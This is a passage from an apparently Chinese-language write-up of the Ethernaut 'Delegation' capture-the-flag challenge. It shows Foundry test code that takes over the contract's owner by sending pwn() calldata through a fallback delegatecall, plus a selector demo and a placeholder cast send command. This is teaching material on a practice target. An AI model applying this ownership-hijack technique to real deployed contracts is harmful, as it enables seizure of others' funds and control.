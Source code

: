 ```solidity
        console.log("Delegate owner:", delegate.owner());     // 变为 attacker
        
        // 重置状态
        vm.stopPrank();
        vm.prank(deployer);
        delegate = new Delegate(deployer);
        
        vm.startPrank(attacker);
        
        // 通过 delegatecall 调用 pwn()
        bytes memory payload = abi.encodeWithSignature("pwn()");
        (bool success,) = address(delegation).call(payload);
        require(success, "Delegatecall failed");
        
        console.log("=== After delegatecall to pwn() ===");
        console.log("Delegation owner:", delegation.owner()); // 变为 attacker!
        console.log("Delegate owner:", delegate.owner());     // 不变
        
        vm.stopPrank();
    }
    
    function testFunctionSelector() public view {
        // 演示函数选择器的计算
        bytes4 selector = bytes4(keccak256("pwn()"));
        console.log("pwn() selector:");
        console.logBytes4(selector);
        
        bytes memory encoded = abi.encodeWithSignature("pwn()");
        console.log("Encoded call data:");
        console.logBytes(encoded);
    }
}
```

### 手动攻击脚本

```solidity
// 如果需要手动攻击，可以使用 cast 命令
contract ManualAttack is Test {
    function testManualAttack() public {
        // 1. 计算函数选择器
        bytes4 selector = bytes4(keccak256("pwn()"));
        console.logBytes4(selector);
        
        // 2. 使用 cast 发送交易
        // cast send <DELEGATION_ADDRESS> <SELECTOR> --private-key <YOUR_KEY>
        // 例如：cast send 0x... 0xdd365b8b --private-key ...
    }
}
```

### 运行测试
